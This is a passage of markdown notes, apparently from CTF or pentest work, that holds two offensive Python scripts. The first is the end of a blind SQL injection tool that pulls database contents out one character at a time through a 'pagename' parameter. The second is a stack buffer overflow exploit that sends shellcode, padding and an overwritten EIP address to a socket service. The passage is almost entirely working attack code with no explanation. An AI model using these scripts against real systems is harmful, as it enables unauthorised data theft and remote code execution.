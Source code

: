 ```python
        for char in characters:
            p2.status(char)
            params = {"pagename": f"upload' and (select concat(ascii(substring(group_concat({column_name}),{pos},1))) from {database_name}.{table_name}) = '{ord(char)}"}
            r = requests.get(url, params=params, cookies=cookies)
            if filter in str(r.content):
                names += char
                p1.status(names)
                break
            
            if char == ' ':
                print(colored("[i] Finish", 'yellow'))
                sys.exit(0)



if __name__ == '__main__':
    # get_databases()
    # get_tables('admin')
    # get_columns('admin', 'pages')
    get_data('admin', 'pages', 'pagename')
```

## Script Python Buffer Overflow
```python
from struct import pack
import socket

shell_code = (b"\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
b"\x0e\xbf\x17\xd4\x33\x83\xee\xfc\xe2\xf4\x8e\xcc\x23\xd0"
b"\xec\x54\x87\x59\xbd\x9e\x35\x83\xd9\xda\x54\xa0\xe6\xa7"
b"\xeb\xfe\x3f\x5e\xad\xca\xd7\xd7\x7c\x32\xaa\x7f\xd6\x33"
b"\xbe\xac\x5d\xd2\x0f\x71\x84\x62\xec\xa4\xd7\xba\x5e\xda"
b"\x54\x61\xd7\x79\xfb\x40\xd7\x7f\xfb\x1c\xdd\x7e\x5d\xd0"
b"\xed\x44\x5d\xd2\x0f\x1c\x19\xb3")

offset = 168

eip = 0x08048563
eip = pack("<I", eip)

payload = shell_code + b'A'*(offset-len(shell_code)) + eip + b"\n"


ip = "127.0.0.1"
port = 7788

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print(s.recv(1024).decode(), end="")
print(48093572)
s.send(b"48093572\n")
print(s.recv(1024).decode())
print(s.recv(1024).decode(), end="")
s.send(b"3\n")
print(3)
print(s.recv(1024).decode(), end="")
s.send(payload)
print(s.recv(1024))
```
